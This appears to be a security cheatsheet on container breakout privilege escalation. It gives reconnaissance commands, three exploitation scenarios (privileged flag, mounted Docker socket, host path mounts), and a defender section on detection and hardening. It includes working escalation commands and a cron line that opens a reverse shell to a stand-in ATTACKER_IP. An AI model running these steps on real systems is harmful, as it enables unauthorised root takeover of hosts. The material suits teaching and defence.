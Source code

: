 ## 🏢 Cheatsheet: Container Breakout Privilege Escalation

Containers provide operating-system-level virtualization, isolating application processes in user space but sharing the host's kernel. A "container breakout" or "escape" occurs when a process inside a container bypasses these isolation mechanisms. Since the container daemon often runs as **root** on the host, a successful breakout typically results in full root compromise of the host machine.

### ## What to Look For (Reconnaissance from Inside a Container)

The first step for an attacker is to determine if they are inside a container and look for misconfigurations.

* **Check for Container Environments:**
    ```bash
    # Docker often creates this file
    ls -l /.dockerenv

    # Check the process control groups
    cat /proc/1/cgroup
    # Output will contain paths with "docker" or "lxc"
    ```

* **Look for Common Misconfigurations:**
    * **Is the container privileged?** Privileged containers have most security restrictions disabled.
    * **Is the Docker socket mounted?** This is a critical vulnerability.
        ```bash
        ls -l /var/run/docker.sock
        ```
    * **Are any host filesystems mounted?** Check the output of the `mount` or `df -h` command for sensitive host paths like `/`, `/root`, or `/etc`.
    * **What capabilities does the container have?**
        ```bash
        capsh --print
        ```
        Look for powerful capabilities like `CAP_SYS_ADMIN`.

---

### ## Common Exploitable Scenarios & Payloads

Breakouts usually exploit configuration weaknesses rather than novel zero-day vulnerabilities.

#### **Scenario 1: The `--privileged` Flag**
If a container is run with `--privileged`, a breakout is trivial. The attacker has direct access to host devices.

* **Exploitation:**
    The attacker can simply mount the host's disk and `chroot` into it.
    ```bash
    # Find the host's disk (e.g., /dev/sda1)
    fdisk -l
    # Mount it and chroot
    mkdir /host
    mount /dev/sda1 /host
    chroot /host
    ```

#### **Scenario 2: Mounted Docker Socket (Most Common)**
If the Docker socket (`/var/run/docker.sock`) is mounted inside the container, the attacker can use it to communicate with the host's Docker daemon.

* **Exploitation:**
    From inside the container, the attacker uses the `docker` client to launch a new, privileged container that mounts the host's root filesystem.
    ```bash
    # 1. Install docker client inside the container if not present
    # (e.g., apt update && apt install docker.io)

    # 2. Run a new container, mounting the host's root directory (/) to /host
    docker run -it -v /:/host --rm alpine

    # 3. You are now in a new container, but the host's filesystem is at /host.
    # Change your root to the host's filesystem.
    chroot /host
    ```
    You now have a root shell on the host system.

#### **Scenario 3: Host Path Mounts**
If a sensitive host directory is mounted, the attacker can use it to gain control.

* **Discovery:** `mount` shows that `/` on the host is mounted at `/mnt/host` in the container.
* **Exploitation:** The attacker can add their own user to the host's `/etc/passwd` file, add their SSH key to the root user's `authorized_keys`, or create a cron job on the host.
    ```bash
    # From inside the container, create a cron job on the host
    echo "* * * * * root bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /mnt/host/etc/cron.d/revshell
    ```

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **Runtime Security Monitoring:** Use tools like **Falco**, **Aqua Security**, or **Sysdig** to detect anomalous behavior, such as a process inside a container trying to access the Docker socket or spawning a shell from an unexpected process.
* **Audit Docker Daemon Logs:** Monitor the Docker daemon logs (`journalctl -u docker.service`) for containers being launched from unexpected sources (i.e., from another container).

#### **How to Prevent Container Breakouts**

* **NEVER Use `--privileged`:** Avoid this flag unless you have an extreme, well-understood need. It disables nearly all container security mechanisms.
* **NEVER Mount the Docker Socket:** Do not mount `/var/run/docker.sock` into your containers. This is the most common and dangerous misconfiguration.
* **Principle of Least Privilege for Mounts:** Only mount the specific files or directories your application needs. Never mount `/`. Always use read-only (`:ro`) mounts whenever possible.
* **Drop Capabilities:** Run containers with the minimum set of capabilities required.
    ```bash
    # Example: Drop all capabilities, then add back only what's needed
    docker run --cap-drop=ALL --cap-add=NET_BIND_SERVICE ...
    ```
* **Run as a Non-Root User:** Use the `USER` instruction in your Dockerfile to run the application process as a non-root user.
* **Use Rootless Containers:** Configure the Docker daemon itself to run as a non-root user. This massively mitigates the impact of a breakout, as the escaped process would only have the privileges of that user, not the host's root.
* **Use Security Profiles:** Enforce security profiles like **AppArmor** and **Seccomp** to restrict the system calls a container can make. Docker applies default profiles, but you can create stricter custom ones.
